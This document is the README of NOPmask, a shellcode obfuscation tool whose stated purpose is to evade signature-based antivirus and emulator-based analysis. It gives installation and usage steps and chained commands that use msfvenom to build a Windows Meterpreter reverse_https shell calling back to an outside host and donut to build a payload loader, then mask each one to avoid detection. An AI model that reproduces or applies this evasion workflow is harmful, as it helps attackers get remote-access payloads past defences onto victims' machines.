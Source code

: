 # NOPmask v1.0
██████████████████████████████████████████████
█▄─▀█▄─▄█─▄▄─█▄─▄▄─█▄─▀█▀─▄██▀▄─██─▄▄▄▄█▄─█─▄█
██─█▄▀─██─██─██─▄▄▄██─█▄█─███─▀─██▄▄▄▄─██─▄▀██
▀▄▄▄▀▀▄▄▀▄▄▄▄▀▄▄▄▀▀▀▄▄▄▀▄▄▄▀▄▄▀▄▄▀▄▄▄▄▄▀▄▄▀▄▄▀

Shellcode obfuscation utility to evade signature-based detection and emulator-driven analysis.

---

## Features

- Encrypts shellcode to appear like benign NOP instructions.
- Only decrypts and executes shellcode if running on real machine.
- Uses pure assembly with no dependencies, so it works on any operating system.

---

## Installation

Clone the repository:

```bash
git clone https://github.com/whoamiamleo/NOPmask
cd NOPmask
```

Install dependencies:
```bash
pip install -r requirements.txt
```

---

## Usage
```console
usage: NOPmask.py [-h] -a {amd64,i386} -i INPUT -o OUTPUT -f {base64,binary}

options:
  -h, --help                        show this help message and exit
  -a, --arch {amd64,i386}           target CPU architecture
  -i, --input INPUT                 path to input file
  -o, --output OUTPUT               path to output file
  -f, --format {base64,binary}      format of output file
```

Basic usage example:
```bash
python NOPmask.py -a amd64 -i shellcode.bin -o masked_shellcode.bin -f binary
```

Example of using with msfvenom:
```bash
msfvenom -p windows/x64/meterpreter/reverse_https LHOST=1.2.3.4 LPORT=443 -f raw -o raw_shellcode.bin
python NOPmask.py -a amd64 -i raw_shellcode.bin -o masked_shellcode.bin -f binary
msfvenom -p generic/custom PAYLOADFILE=masked_shellcode.bin -f C -v shellcode
```

Example of using with donut:
```bash
donut.exe -a 2 -i payload.dll -o loader.bin
python NOPmask.py -a amd64 -i loader.bin -o masked_loader.bin -f binary
msfvenom -p generic/custom PAYLOADFILE=masked_loader.bin -f C -v shellcode
```

### Warnings

1. The decryption stub alters the memory space that the shellcode is executed within, and therefore the memory space allocated for the shellcode must have Read/Write/Execution permissions.
2. The emulation evasion technique employed here exploits the fact that emulators are not patient, they will try to rush the emulation to not let the user wait, so please allow up to a minute for your shellcode to execute.

---

## Attribution

Written by Leopold von Niebelschuetz-Godlewski

[https://github.com/whoamiamleo/NOPmask](https://github.com/whoamiamleo/NOPmask)

Licensed under the MIT License.

If you use NOPmask in your projects, a link back or mention is appreciated!

---

## Contributing
Contributions, issues, and feature requests are welcome!
Feel free to check the [issues](https://github.com/whoamiamleo/NOPmask/issues) page or submit a pull request.

---

## License
This project is licensed under the MIT License — see the [LICENSE](https://raw.githubusercontent.com/whoamiamleo/NOPmask/main/LICENSE) file for details.